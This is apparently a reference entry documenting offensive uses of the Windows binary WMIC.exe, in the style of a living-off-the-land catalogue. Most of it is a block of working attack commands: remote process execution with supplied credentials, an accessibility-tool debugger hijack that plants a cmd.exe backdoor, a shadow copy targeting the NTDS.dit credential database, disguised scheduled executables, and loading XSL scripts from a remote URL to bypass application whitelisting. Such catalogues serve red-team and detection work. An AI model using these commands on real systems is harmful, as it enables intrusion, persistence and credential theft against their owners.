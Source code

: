 ## WMIC.exe

* Functions: Reconnaissance, Execute, Read ADS

```
wmic process call create calc    

wmic process call create '"c:\ads\file.txt:program.exe"'
   
wmic useraccount get /ALL    
    
wmic process get caption,executablepath,commandline     
    
wmic qfe get description,installedOn /format:csv    
    
wmic /node:"192.168.0.1" service where (caption like "%sql server (%")    
    
get-wmiobject –class "win32_share" –namespace "root\CIMV2" –computer "targetname"    
    
wmic /user:<username> /password:<password> /node:<computer_name> process call create "C:\Windows\system32\reg.exe add \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe\" /v \"Debugger\" /t REG_SZ /d \"cmd.exe\" /f"    
    
wmic /NODE: "192.168.0.1" process call create "evil.exe"    
    
wmic /node:REMOTECOMPUTERNAME PROCESS call create "at 9:00PM c:\GoogleUpdate.exe ^> c:\notGoogleUpdateResults.txt"    
    
wmic /node:REMOTECOMPUTERNAME PROCESS call create "cmd /c vssadmin create shadow /for=C:\Windows\NTDS\NTDS.dit > c:\not_the_NTDS.dit"    
     
wmic process get brief /format:"https://www.example.com/file.xsl"    
     
wmic os get /format:"MYXSLFILE.xsl"    
     
wmic process get brief /format:"\\127.0.0.1\c$\Tools\pocremote.xsl"   
```

Acknowledgements:
* Casey Smith - @subtee

Code sample:
* [Wmic_calc.xsl](Payloads/Wmic_calc.xls)   

Resources:
* https://stackoverflow.com/questions/24658745/wmic-how-to-use-process-call-create-with-a-specific-working-directory
* https://subt0x11.blogspot.no/2018/04/wmicexe-whitelisting-bypass-hacking.html
* https://twitter.com/subTee/status/986234811944648707

Full path:
```
c:\windows\system32\wbem\wmic.exe
c:\windows\sysWOW64\wbem\wmic.exe
```

Notes:



 

